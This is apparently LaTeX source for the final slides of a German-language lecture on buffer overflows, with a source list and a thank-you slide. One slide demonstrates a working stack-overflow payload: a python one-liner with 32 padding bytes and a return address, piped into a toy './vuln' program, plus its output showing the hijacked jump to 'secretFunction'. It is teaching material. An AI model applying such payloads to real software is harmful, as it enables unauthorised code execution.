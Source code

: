 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}[fragile]{Buffer Overflows -Programm IV}
  \begin{itemize}
    \item Adresse von \textit{secretFunction} ist \textbf{0000059d}
    \item 38 in hex oder 56 in dezimal reserviert f\"ur lokale variablen der echo Funktion.
    \item 28 bytes sind f\"ur Buffer reserviert.
  \end{itemize}

  \textbf{Payload:}
  \newline
  Die ersten 28+4=32 bytes sind zuf\"llige Chars und die n\"achsten 4 bytes die Addresse der \textit{secretFunction}.
  \begin{lstlisting}[style=BashStyle]
  python -c 'print "a"*32 + "\x00\x00\x05\x9d"' | ./vuln
  \end{lstlisting}

  Ausgabe:
  \begin{lstlisting}[style=BashStyle]
  Enter some text:
  You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<rubbish 3 bytes>
  Congratulations!
  You have entered in the secret function!
  Illegal instruction (core dumped)
  \end{lstlisting}
\end{frame}


\begin{frame}[fragile]{Quellen}
  \begin{itemize}
    \item \url{wikipedia.org}
    \item \url{owasp.org}
    \item \url{https://docs.oracle.com/javase/7/docs/api/java/net/URI.html#normalize()}
    \item \url{https://www.statista.com/statistics/434880/cyber-crime-exploits/}
    \item \url{https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/}
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{}
  \huge Vielen Dank f\"ur ihre Aufmerksamkeit!
\end{frame}
\end{document}
